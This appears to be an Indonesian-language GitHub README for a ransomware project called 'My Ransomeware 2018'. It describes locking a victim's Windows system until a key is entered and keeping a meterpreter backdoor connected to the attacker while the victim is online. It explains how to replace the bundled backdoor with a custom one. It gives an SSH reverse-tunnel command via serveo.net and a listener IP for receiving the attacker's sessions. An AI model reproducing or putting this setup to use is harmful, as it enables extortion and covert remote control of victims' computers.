 # My Ransomeware 2018

[Catatan]

-jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

-jangan merubah nama folder (VirusUI), mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe


[Cara Kerja Software]

-Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

-Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

[cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

Windows 10 versi up

windows 8

windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)
![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)
